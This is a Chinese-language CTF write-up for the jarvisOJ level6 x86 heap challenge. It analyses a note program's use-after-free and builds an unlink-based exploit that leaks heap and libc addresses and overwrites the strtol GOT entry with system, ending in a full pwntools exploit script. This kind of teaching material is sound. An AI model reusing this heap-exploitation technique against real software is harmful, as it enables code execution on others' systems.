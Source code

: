 ```yaml
---
title: jarvis_level6x86
date: 2020-02-27 14:27:29
tags:
- pwn
- jarvisOJ
---
```


# jarvisOJ level6 x86

### 0x0 前置补偿

[Unlink-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unlink-zh/)

[main_arena 在libc里的相关偏移量]([https://binlep.github.io/2019/10/15/%E3%80%90Pwn%20%E7%AC%94%E8%AE%B0%E3%80%91%E5%A0%86%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/](https://binlep.github.io/2019/10/15/[Pwn 笔记]堆利用总结/))

### 0x1 分析

看一下安全性。

<img src="https://i.loli.net/2020/02/27/UYecC5uA2sOd1th.png" style="zoom:50%;" />

堆栈上的代码是没办法执行的。got表可以修改。

`main`：

```c
int __cdecl main()
{
  unsigned int v0; // eax

  buf();
  preload();
  while ( 1 )
  {
    v0 = menu();
LABEL_3:
    switch ( v0 )
    {
      case 1u:
        list();                                
        continue;
      case 2u:
        create();
        continue;
      case 3u:
        edit();
        continue;
      case 4u:
        delete();
        v0 = menu();
        if ( v0 > 5 )
          goto LABEL_6;
        goto LABEL_3;
      case 5u:                                  
        puts("Bye");
        return 0;
      default:
LABEL_6:
        puts("Invalid!");
        break;
    }
  }
}
```



分析一下`main`代码，主要以下几个功能

1. List Note：按格式打印所有note
2. New Note：新建一个note，但是输入内容的最后一个字符没有置零。
3. Edit Note：编辑指定note，若内容长度变化，relloc一个合适空间。
4. Delete Note：free指定note，但是没有在note表中的note指针置零。

另外，这其实是两个结构体：可以在`preload`函数里观察到。

```c
struct noteList{
  int noteNumMax;
  int noteCount;
  struct note[];
};

struct note{
  bool flag;
  int contentLen;
  char *content;
}
```

所以到此为止，我们发现这里有一个UAF漏洞，因为free指定note之后，noteList中相关note指针并没有置零。

大致思路就是通过list函数来泄漏出其中一个`chunk`的地址，从而得到heap的基地址。

再通过Unlink来修改`note[];`中的指针，从而实现任意地址的修改，再修改GOT表，完成执行`/bin/sh`。

首先我们泄漏`main_arena`地址。先`malloc`出几个note防止free note的时候合并到`top chunk`。

因为`Unsorted Bin`是一个双向循环链表，后进去的`chunk`的`fd`指针指向前一个`chunk`，我们可以通过溢出，来泄漏`fd`指向的`chunk`地址。

```python
#leak heapbase
create(p, 'A' * 0x80)         #idx:0
create(p, 'A' * 0x80)         #idx:1
create(p, 'A' * 0x80)         #idx:2
create(p, 'A' * 0x80)         #idx:3
create(p, 'A' * 0x80)         #idx:4
# debug(p, 'b*0x080484D0')
delete(p, 3)
delete(p, 1)

payload = 'A'*0x80 + 'a'*0x8	
edit(p, 0, payload)
list(p)						#leak chunk3 addr
p.recvuntil('a' * 0x8)
heap_base = u32(p.recv(4)) - 0xC10 - 0x88 * 3 - 0x8	#preload中malloc过一个大chunk。
chunk0_addr = heap_base + 0x18
chunk1_addr = heap_base + 0x08 + 0xc10 + 0x88 * 1 + 0x08
```

接下来是Unlink。

如果已经free掉`note0`如果再free`note1`的话，系统会合并`note1`和`note0`。前提是他们地址相邻。

我们在`note0`伪造一个`chunk`，来unlink这个`chunk`就可以修改`noteList`中的指针。

```python
payload = p32(0x88) + p32(0x80) + p32(chunk0_addr - 0xc) + p32(chunk0_addr - 0x8)	#构造的chunk地址为notelist上存的第一个note的地址。

payload = payload + 'a' * (0x80 - 0x4 * 4) + p32(0x80) + p32(0x88)	#修改note1所在chunk的pre_size和size。

edit(p, 0, payload)
delete(p, 1)	#unlink
```

接下来，note0指向&note0 - 0xC的位置。

所以我们可以通过`edit(0)`来修改`noteList`中的指针。

参考某大佬的wp，我们修改note2上的地址为`"strtol"`的got地址，来泄漏libc地址。

```python
payload = p32(2) + p32(1) + p32(0x88) + p32(chunk0_addr - 0xc)
payload = payload + p32(1) + p32(0x4) + p32(elf.got["strtol"])
payload = payload.ljust(0x88, '\x00')
edit(p, 0, payload)
list(p)
p.recvuntil("0. ")
p.recvuntil("1. ")
libc_Base = u32(p.recv(4)) - libc.symbols["strtol"]
```

修改`"strtol"`的got为`system`地址即可完成。

```python
system_addr = libc_Base + system_libc
edit(p, 1, p32(system_addr))
```

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug' 
context.terminal = ['tmux', 'splitw', '-h']
# p = remote("pwn2.jarvisoj.com", 9885)
p = process('./freenote_x86')
elf = ELF("./freenote_x86")
# libc = ELF("./libc-2.19.so")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

memalign_hook_libc = libc.symbols["__memalign_hook"]
system_libc = libc.symbols["system"]

def debug(p, cmd):
  '''cmd = 'b *%d' %(proc_base+breakaddr)'''
  gdb.attach(p, cmd)
  pause()

def create(p, content):
  p.sendlineafter("Your choice: ", "2")
  p.sendlineafter("Length of new note: ", str(len(content)))
  p.sendafter("Enter your note: ", content)

def list(p):
  p.sendlineafter("Your choice: ", "1")

def edit(p, idx, content):
  p.sendlineafter("Your choice: ", "3")
  p.sendlineafter("Note number: ", str(idx))
  p.sendlineafter("Length of note: ", str(len(content)))
  p.sendafter("Enter your note:", content)

def delete(p, idx):
  p.sendlineafter("Your choice: ", "4")  
  p.sendlineafter("Note number: ", str(idx))

#leak heapbase
create(p, 'A' * 0x80)         #idx:0
create(p, 'A' * 0x80)         #idx:1
create(p, 'A' * 0x80)         #idx:2
create(p, 'A' * 0x80)         #idx:3
create(p, 'A' * 0x80)         #idx:4
# debug(p, 'b*0x080484D0')
delete(p, 3)
delete(p, 1)

payload = 'A'*0x80 + 'a'*0x8
edit(p, 0, payload)
list(p)
p.recvuntil('a' * 0x8)
heap_base = u32(p.recv(4)) - 0xC10 - 0x88 * 3 - 0x8
chunk0_addr = heap_base + 0x18
chunk1_addr = heap_base + 0x08 + 0xc10 + 0x88 * 1 + 0x08

payload = p32(0x88) + p32(0x80) + p32(chunk0_addr - 0xc) + p32(chunk0_addr - 0x8)
payload = payload + 'a' * (0x80 - 0x4 * 4) + p32(0x80) + p32(0x88)
edit(p, 0, payload)
delete(p, 1)

payload = p32(2) + p32(1) + p32(0x88) + p32(chunk0_addr - 0xc)
payload = payload + p32(1) + p32(0x4) + p32(elf.got["strtol"])
payload = payload.ljust(0x88, '\x00')
edit(p, 0, payload)
list(p)
p.recvuntil("0. ")
p.recvuntil("1. ")
libc_Base = u32(p.recv(4)) - libc.symbols["strtol"]
system_addr = libc_Base + system_libc

edit(p, 1, p32(system_addr))

p.interactive()
```



